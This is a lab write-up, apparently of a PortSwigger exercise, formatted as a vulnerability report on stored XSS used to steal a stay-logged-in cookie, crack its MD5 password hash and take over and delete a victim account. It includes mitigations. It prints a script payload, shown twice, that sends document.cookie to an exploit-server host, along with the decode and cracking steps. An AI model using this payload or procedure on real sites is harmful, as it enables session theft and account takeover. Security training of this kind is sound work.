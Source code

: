 
# 10. Exploiting XSS to Steal Stay-Logged-In Cookie and Compromise User Account

## 2. CVSS Score

**CVSS v3.1 Base Score: 8.1 (High)**
**CWE-79: Cross-Site Scripting (XSS)**
**CWE-200: Exposure of Sensitive Information to an Unauthorized Actor**

---

## 3. OWASP Top 10 Reference

* **A03:2021 – Injection (Cross-Site Scripting - XSS)**
* **A07:2021 – Identification and Authentication Failures**

---

## 4. Description of Vulnerability

This lab demonstrates a stored Cross-Site Scripting (XSS) vulnerability in the comment functionality which can be exploited to steal other users' stay-logged-in cookies. These cookies are Base64-encoded strings containing the username and an MD5 hash of the user's password. By stealing this cookie, an attacker can impersonate the victim user and take over their account.

---

## 5. Detailed Explanation of What We Performed

* Logged in and investigated the "Stay logged in" cookie, confirming it is Base64-encoded with the format: `username:md5HashOfPassword`.
* Discovered the comment feature was vulnerable to stored XSS.
* Used the exploit server URL and posted a comment containing a stored XSS payload embedding the exploit server ID to steal cookies.
* Checked the exploit server logs to capture the victim’s cookie sent via the XSS payload.
* Decoded the stolen cookie in Burp Decoder, revealing the username and MD5 hash of the victim's password.
* Cracked the password hash by searching the hash online, revealing the plaintext password `onceuponatime`.
* Logged in as the victim and deleted their account to solve the lab.

---

## 6. Step-by-Step Procedure

### Step 1: Analyze Stay-Logged-In Cookie

1. Log in with "Stay logged in" selected.
2. Inspect the stay-logged-in cookie in the HTTP history.
3. Decode the Base64 cookie to reveal: `username:md5HashOfPassword`.

---

### Step 2: Exploit Stored XSS to Steal Cookie

4. Note the exploit server URL.
5. Post a comment on a blog with the following payload (replace `YOUR-EXPLOIT-SERVER-ID`):

```html
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```

6. Check the exploit server access logs for a GET request containing the victim's stolen stay-logged-in cookie.

---

### Step 3: Decode and Crack Password Hash

7. Decode the stolen cookie in Burp Decoder, for example:

```
carlos:26323c16d5f4dabff3bb136f2460a943
```

8. Search the MD5 hash (`26323c16d5f4dabff3bb136f2460a943`) online to find the plaintext password: `onceuponatime`.

---

### Step 4: Take Over Victim Account

9. Log in as the victim using the cracked password.
10. Go to the "My account" page and delete the victim’s account.
11. The lab is solved.

---

## 7. Impact of the Vulnerability

* Enables full account takeover through XSS cookie theft.
* Compromises authentication by exposing password hashes via cookies.
* Allows attackers to delete or manipulate victim accounts.

---

## 8. Recommendations and Mitigations

* Sanitize and validate all user input to prevent XSS attacks.
* Implement Content Security Policy (CSP) headers to restrict script execution.
* Use secure, random, and signed session tokens instead of predictable cookies.
* Mark cookies as HttpOnly and Secure.
* Avoid storing password hashes or sensitive data client-side.
* Monitor and log suspicious activity related to account access.

---

## 9. References

* [OWASP Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
* [OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)
* [PortSwigger Labs - Stored XSS and Cookie Theft](https://portswigger.net/web-security/cross-site-scripting/stored)

---

## 10. Proof of Concept

### Stored XSS Payload Used in Comment

```html
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```

### Decoding the Stolen Cookie

```bash
echo "Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz" | base64 -d
# Output: carlos:26323c16d5f4dabff3bb136f2460a943
```

### Hash Cracked Online

MD5 hash `26323c16d5f4dabff3bb136f2460a943` = `onceuponatime`

